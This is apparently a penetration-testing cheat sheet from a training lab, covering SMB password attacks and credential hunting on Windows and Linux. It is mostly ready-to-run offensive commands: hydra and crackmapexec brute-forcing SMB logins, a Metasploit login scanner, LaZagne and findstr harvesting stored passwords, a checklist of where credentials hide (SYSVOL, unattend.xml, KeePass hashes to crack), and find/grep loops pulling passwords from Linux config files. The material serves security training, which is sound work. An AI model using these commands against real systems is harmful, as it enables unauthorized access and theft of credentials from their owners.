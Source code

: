 #### SMB

```shell
hydra -L user.list -P password.list smb://10.129.42.19
msf6 > use auxiliary/scanner/smb/smb_login


crackmapexec smb 10.129.42.197 -u "user" -p "password"
crackmapexec smb --local-auth 10.129.42.197 -u "user" -p "password" 
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

## Credential Hunting

#### Windows

**Lazagne**

We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store.

```
start lazagne.exe all
```

**findstr**

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

Here are some other places we should keep in mind when credential hunting:

* Passwords in Group Policy in the SYSVOL share
* Passwords in scripts in the SYSVOL share
* Password in scripts on IT shares
* Passwords in web.config files on dev machines and IT shares
* unattend.xml
* Passwords in the AD user or computer description fields
* KeePass databases --> pull hash, crack and get loads of access.
* Found on user systems and shares
* Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, [Sharepoint](https://www.microsoft.com/en-us/microsoft-365/sharepoint/collaboration)

#### Linux

**Config Files**

````shell
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Creds in Config Files
```shell
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
````
